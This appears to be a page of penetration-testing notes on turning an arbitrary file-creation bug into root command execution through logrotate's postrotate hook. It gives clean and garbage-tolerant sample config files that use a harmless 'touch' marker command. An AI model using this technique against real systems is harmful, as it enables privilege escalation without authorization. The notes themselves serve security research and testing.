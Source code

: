 # Create Arbitrary File
These notes apply when you found a bug where:
* as root or user you can...
	* create an empty file
	* create file and control content (eg. arbitrary file upload)
	* create file and partially control content (eg. inject data into a config file)
		* control filename/path
		* partially control filename or path (eg. fixed extension)

### logrotate
* requires `root` permissions
* on Ubuntu 22.04 LTS `logrotate` is executed daily through `/etc/cron.daily/logrotate`
* logrotate config files in `/etc/logrotate.d/<anything>`
* consideres time in `/var/lib/logrotate/status` to determin if log should be rotated (you might have to wait for two days for a new file to trigger a first rotate)
* comment lines start with `# a comment`
* newlines are required! Format is strict
* unkown commands are ignored

#### Clean File
```
/etc/debian_version {
       hourly
       copy
       ifempty
       missingok 
       postrotate /usr/bin/touch /tmp/testrotate 
       endscript
}
```

#### Messy File
```
text and <00><ff>binary is okay here, but must not start with a [symbol]!@#

/etc/debian_version {
       thishere must be valid word at the start. symbols can appear [later!@] but not at the start!
       # a comment with # is similar to invalid command. anything can follow until newline \n (even binary)
       hourly
       copy
       ifempty
       missingok 
       postrotate /usr/bin/touch /tmp/testrotate 
       endscript
}

# comment here
xxxx {
asdas
}

[we]! can have symbols and garbage at the end
<00><ff> binary also ok here
```